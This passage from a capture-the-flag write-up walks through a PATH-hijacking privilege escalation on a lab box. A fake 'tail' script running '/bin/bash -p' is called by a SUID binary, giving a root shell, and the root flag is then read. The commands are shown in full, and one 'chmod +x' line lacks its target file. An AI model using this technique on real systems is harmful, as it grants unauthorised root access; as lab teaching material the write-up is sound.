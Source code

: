 This time I found it on the first go. We can see there is a call to tail which doesn't include the full path to the binary. We can exploit this unquoted path to execute a file of our choice. [This](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) article is quite detailed if you want to better understand it this type of attack.

First move to another folder, then add it to the PATH of the system:

```text
barry@mustacchio:/home/joe$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
barry@mustacchio:/home/joe$ cd /dev/shm
barry@mustacchio:/dev/shm$ export PATH=/dev/shm:$PATH
barry@mustacchio:/dev/shm# echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Now we can create a file in this folder called tail, and when the live_log binary is executed it will call our file instead of the correct version of tail:

```text
barry@mustacchio:/dev/shm# echo "/bin/bash -p" > tail
barry@mustacchio:/dev/shm# chmod +x
```

Finally we can run the live_log binary to switch us to root:

```text
barry@mustacchio:/dev/shm$ /home/joe/live_log
root@mustacchio:/dev/shm# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
```

Let's get the root flag:

```text
root@mustacchio:/dev/shm# cat /root/root.txt
3223581420d906c4dd1a5f9b530393a5
```

And we are all done. That was a nice simple room, I hope you enjoyed it and learned something useful along the way.

See you next time.
